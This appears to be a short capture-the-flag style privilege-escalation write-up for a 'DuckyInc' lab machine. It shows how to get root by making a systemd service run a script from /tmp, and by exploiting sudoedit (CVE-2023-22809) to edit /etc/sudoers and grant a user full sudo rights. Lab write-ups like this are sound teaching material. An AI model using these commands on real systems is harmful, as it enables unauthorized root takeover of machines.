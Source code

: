 The file permissions for `/etc/systemd/system/duckyinc.service` were:

```
-rw-r--r-- 1 root root 388 Aug 12 2020 /etc/systemd/system/duckyinc.service
```

However, it is editable using `sudoedit`.

---

### Method 1: Editing the File

```ini
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash /tmp/ro.sh
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

**Note:** `User=root` and `Group=root`

The script `ro.sh` can perform the necessary actions.

---

### Method 2: Exploiting `sudoedit`

The `sudoedit` version is exploitable (CVE-2023-22809). Follow these steps:

```bash
export EDITOR="vim -- /etc/sudoers"
sudoedit /opt/example.txt
```

Add the following line to escalate privileges:

```
john ALL=(ALL:ALL) ALL
```

Finally, gain root access:

```bash
sudo su root
```
[CVE-2019-18634] CVE-2019-18634 is a vulnerability in sudo that affects versions prior to 1.8.26.

check sudo version => sudo --version
